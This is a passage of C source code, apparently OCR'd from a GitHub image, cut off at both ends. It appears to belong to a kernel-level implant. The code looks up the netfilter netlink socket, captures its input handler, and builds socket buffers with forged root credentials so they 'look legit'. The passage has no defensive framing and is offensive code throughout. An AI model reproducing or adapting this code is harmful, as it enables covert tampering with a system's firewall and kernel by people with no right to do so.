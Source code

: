 ```c

	// Check to see if the handler is registered
	if (!nl_table[NETLINK_NETFILTER].registered) {
		netlink_table_ungrab();
		goto done;
	}

	// Grab the kernel socket
	kern_sock = netlink_lookup(&init_net, NETLINK_NETFILTER, 0);
	if (!kern_sock) {
		netlink_table_ungrab();
		goto done;
	}

	// Grab that .input handler
	handler = nlk_sk(kern_sock)->netlink_rcv;
	if (!handler) {
		netlink_table_ungrab();
		goto done;
	}

	// Ungrab the table we're done with it
	netlink_table_ungrab();

	// Pre-set
	err = -ENOMEM;

	// Create all of the socket buffers we need and store them
	for (i = 0; i < LF_MAX_NUM_ENVS; i++) {
		skb = alloc_skb(LF_MAX_ENV_LEN, GFP_KERNEL);
		// If we failed, unroll all the previous allocations
		if (!skb) {
			while (--i >= 0) {
				kfree_skb(skbs[i]);
				skbs[i] = NULL;
			}
			goto done;
		}

		// Initialize what we need to look legit
		skb->pkt_type = PACKET_HOST;
        skb->sk = kern_sock;
        NETLINK_CB(skb).portid = 0x1337;
        NETLINK_CB(skb).dst_group = 0;
        NETLINK_CB(skb).creds.uid = GLOBAL_ROOT_UID;
        NETLINK_CB(skb).creds.gid = GLOBAL_ROOT_GID;
		NETLINK_CB(skb).flags = NETLINK_SKB_DST;

		// Store the skb
		skbs[i] = skb;
	}

	// We are so done dude, it worked
	err = 0;

done:
	return err;
}

// Define our input structures
struct lf_input {
	u32 total_len;
	u32 num_envs;
```